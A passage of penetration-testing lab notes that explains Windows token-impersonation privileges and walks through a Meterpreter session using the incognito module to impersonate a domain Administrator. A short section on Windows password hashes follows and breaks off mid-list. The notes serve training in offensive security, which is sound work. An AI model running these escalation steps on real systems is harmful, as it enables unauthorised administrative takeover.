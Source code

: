 - The following are the privileges that are required for a successful impersonation attack:
	- SeAssignPrimaryToken: This allows a user to impersonate tokens.
	- SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.
	- SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.
- Incognito is a built-in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- We can use the incognito module to display a list of available tokens that we can impersonate

```bash
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege #
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege #
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege

meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token ATTACKDEFENSE\\Administrator 
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator                                                                                                        meterpreter > getuid

Server username: ATTACKDEFENSE\Administrator
```
### **4-Windows Password Hashes**
- The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database
- Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA). 
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
	- LM 